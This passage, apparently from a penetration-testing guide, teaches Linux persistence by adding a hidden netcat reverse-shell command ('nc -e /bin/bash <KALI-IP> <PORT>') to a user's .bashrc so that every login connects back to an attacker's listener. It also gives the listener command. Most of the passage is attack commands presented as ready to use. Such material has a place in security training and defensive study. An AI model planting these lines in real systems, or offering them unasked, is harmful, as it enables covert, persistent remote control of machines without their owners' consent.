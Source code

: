Unix Shell Configuration Modification

This persistence technique will involve adding a bash reverse command that will connect back to our netcat listener in a user account’s .bashrc file. The .bashrc file is a config file that is used to customize bash and is executed when a user logs in with the bash shell.

    The first step will involve opening the .bashrc file with a text editor This can be done by running the following command:

     nano ~/.bashrc

    After opening the file with a text editor, we can add a simple bash command that will provide us with a reverse shell whenever a user logs in. This can be done by adding the following command:

     nc -e /bin/bash <KALI-IP> <PORT> 2>/dev/null &

    As shown in the following screenshot, the command should contain your Kali IP and port netcat is listening on.

![](vx_images/545431128566891.png)

    After adding the bash command to the .bashrc file, we can set up a listener with Netcat on Kali by running the following command:

     nc -nvlp <PORT>
     
![](vx_images/101171927113369.png)

    Whenever a user logs in to the user account, the command in the .bashrc file will be executed and will consequently provide you with a reverse shell on the netcat listener as shown in the following screenshot.
